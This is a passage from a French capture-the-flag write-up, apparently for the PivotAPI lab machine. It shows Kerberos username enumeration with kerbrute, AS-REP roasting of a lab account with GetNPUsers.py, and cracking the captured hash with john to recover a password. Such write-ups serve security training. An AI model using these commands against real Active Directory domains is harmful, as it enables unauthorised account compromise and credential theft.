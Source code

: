 On peut spray ces utilisateurs avec l'outil [kerbrute](https://github.com/ropnop/kerbrute) :

```bash
❯ kerbrute userenum -d LicorDeBellota.htb users.lst --dc PivotAPI.LicorDeBellota.htb

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 11/07/22 - Ronnie Flathers @ropnop

2022/11/07 17:46:39 >  Using KDC(s):
2022/11/07 17:46:39 >  	PivotAPI.LicorDeBellota.htb:88

2022/11/07 17:46:39 >  [+] VALID USERNAME:	Kaorz@LicorDeBellota.htb
2022/11/07 17:46:39 >  Done! Tested 12 usernames (1 valid) in 0.081 seconds
```

Le nom d'utilisateur Kaorz est valide.

## ASREProast Kaorz account & Crack his password

Kaorz est un compte de domaine AS_REP Roastable car la pré-authentification Kerberos n’est pas activé pour cette utilisateur. Nous pouvons alors demander un TGT au KDC à son nom et cracker une partie de la réponse KRB_AS_REP qui contient une clé de session chiffré avec son hash NT. (Pour plus d'informations je vous invite à lire l'[article de pixis sur l'AS_REP Roasting](https://beta.hackndo.com/kerberos-asrep-roasting/) qui est super, de même pour le [GitBook de Shutdown](https://www.thehacker.recipes/ad/movement/kerberos/asreproast)) :

```bash
❯ GetNPUsers.py -request -format john -no-pass -dc-ip PivotAPI.LicorDeBellota.htb LicorDeBellota.htb/Kaorz

[*] Getting TGT for Kaorz
$krb5asrep$Kaorz@LICORDEBELLOTA.HTB:477cd0d9ffcf18230a5cecfd9ad89ae9$ef94db3d2ada646a80954727bc205d7ee7880ee335e40913a28d4f430589b2e8def4a9246f72db2fcfc55ecf844021230c3f1345cc26f9a00d631c217af5c09428cff9d0f94035305ede2fb5319f93bc953162d73997debcc6fa977d8ae1f9d6f59f859ce63b1e5d9f3dc9fa7bfa933d8b9d964b5f7e1c8cb962b6531c2305121cc20948e69df34147091a561fbcfc3862d18fa8ad6a64e058b71475976c2232002f5cf22d7846abfe4098669c65ce9c6dffb651b46ab0a59b94ea5ba3d6bf5a2625cf2c947279775930185bd3e68b40c44fcbe7f331b536de3db2829c04ca9aa31758391b0f4e7096cde86c47d8b9728323d846b18e21fc
❯ john kaorz.tgt --wordlist=$(locate rockyou.txt)
Use the "--format=krb5asrep-aes-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Roper4155        ($krb5asrep$kaorz@LICORDEBELLOTA.HTB)
1g 0:00:00:06 DONE (2021-05-09 00:06) 0.1582g/s 1688Kp/s 1688Kc/s 1688KC/s Rosese08..Ronald72
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


[127.0.0.1]: PS C:\> ls -R C:\Developers